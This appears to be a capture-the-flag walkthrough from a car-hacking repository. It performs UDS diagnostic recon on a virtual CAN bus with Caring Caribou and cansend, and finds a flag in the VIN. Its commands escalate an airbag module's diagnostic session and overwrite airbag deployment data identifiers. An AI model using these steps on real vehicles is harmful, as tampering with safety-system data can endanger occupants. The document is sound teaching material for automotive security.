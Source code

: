 Perform an initial discovery with caring caribou $python3 cc.py uds discovery

Discovery give us the following identified diagnostics:

+------------+------------+<br>
| CLIENT ID | SERVER ID |<br>
+------------+------------+<br>
| 0x00000620 | 0x00000520 |<br>
| 0x00000622 | 0x00000522 |<br>
| 0x0000062c | 0x0000052c |<br>
| 0x000007e0 | 0x000007e8 |<br>
| 0x000007e2 | 0x000007ea |<br>
| 0x000007f1 | 0x000007f9 |<br>
+------------+------------+<br><br>

Next we can look up available services for each of the available modules shown in the list above
<br>
As an example for this recon walkthrough we will follow up only on the last module from the list 0x7f1 and we perform a discovery of services
<br>
$python3 cc.py uds services 0x7f1 0x7f9
<br>
Supported service 0x10: DIAGNOSTIC_SESSION_CONTROL<br>
Supported service 0x11: ECU_RESET<br>
Supported service 0x22: READ_DATA_BY_IDENTIFIER<br>
Supported service 0x27: SECURITY_ACCESS<br>
Supported service 0x2e: WRITE_DATA_BY_IDENTIFIER<br>
Supported service 0x3e: TESTER_PRESENT
<br><br>
Next we can perform a discovery of subfunctions on 0x22 READ_DATA and also on 0x2e WRITE_DATA, the rest of the services are standard and respond as defined for UDS
<br>
$python3 cc.py dcm subfunc 0x7f1 0x7f9 0x22 2 3
<br>
Sub-function 11 11<br>
Sub-function f1 90<br>
Sub-function fa 00<br>
Sub-function fa 01<br>
Sub-function fa 02<br>
Sub-function fa 06<br>
<br>
From the list above we can see the subfunctions FA 00 to FA 06 which are subfunctions reserved for Airbag Deployment Data (see reference below)<br>https://piembsystech.com/data-identifiers-did-of-uds-protocol-iso-14229/
<br><br>
Once we have a list of subfunctions we could read the data out and also we could write data in
<br>
Keeping in mind that this is an airbag module before reading or writing is permitted the diagnostic session should be raise from default session 0x01 to Safety system Diagnostic system session 0x04
<br>$cansend vcan0 7f1#021004 50 04 00 FF 00 FF
<br><br>
We get a positive response of the session changed and we can now execute a subfunction discovery on 0x2e WRITE_DATA service<br>
$python3 cc.py dcm subfunc 0x7f1 0x7f9 0x2e 2 3<br>
Sub-function 11 11<br>
Sub-function f1 90<br>
Sub-function fa 00<br>
Sub-function fa 01<br>
Sub-function fa 02<br>
Sub-function fa 06<br>
<br>
now let's read the VIN number as we already know the subfunction F1 90 has been identified as available as part of 0x22 service in a seperate terminal run the isotprecv command $isotprecv vcan0 -s 7f1 -d 7f9
<br>
$cansend vcan0 7f1#0322f190 response: 62 F1 90 01 31 46 4C 41 47 56 49 4E 53 52 53 34 32 30 36 39 30
<br>
we convert the hex to ascii $echo "31464c414756494e535253343230363930" | xxd -r -p 1FLAGVINSRS420690
<br>
we should be able to read and write as well, let's try it with subfunction FA 06 we read it first $cansend vcan0 7f1#0322fa06 62 FA 06 01 01 01
<br>
Let's now try to write data $cansend vcan0 7f1#062efa06000000 6E FA 06
<br>
and read it again to verify $cansend vcan0 7f1#0322fa06 62 FA 06 00 00 00
<br>
Success
<br><br>
This walkthrough only traverses one of the many possible paths to do recon on the different modules and services available, see image below:<br>
![image](https://github.com/IvanGranero/car-hacking/assets/47937620/015899a5-38f1-46a2-bdb7-428555ff6f9f)
<br>
for a complete recon all the remaining modules and services within the modules plus subfuntions would have to be discovered and played with.
<br>
Just to give another quick example if we do a service discovery on module 7e0:
<br><br>
Supported service 0x01: Unknown service<br>
Supported service 0x04: Unknown service<br>
Supported service 0x09: Unknown service<br>
Supported service 0x10: DIAGNOSTIC_SESSION_CONTROL<br>
Supported service 0x11: ECU_RESET<br>
Supported service 0x22: READ_DATA_BY_IDENTIFIER<br>
Supported service 0x23: READ_MEMORY_BY_ADDRESS<br>
Supported service 0x27: SECURITY_ACCESS<br>
Supported service 0x28: COMMUNICATION_CONTROL<br>
Supported service 0x2e: WRITE_DATA_BY_IDENTIFIER<br>
Supported service 0x2f: INPUT_OUTPUT_CONTROL_BY_IDENTIFIER<br>
Supported service 0x3e: TESTER_PRESENT<br>
Supported service 0xba: Unknown service
<br><br>
with the above information we can either do a dump_dids o subfunction search, the 0x2f would be a very interesting service to play with. as a hint this module also contains a flag by reading the VIN. Have fun!
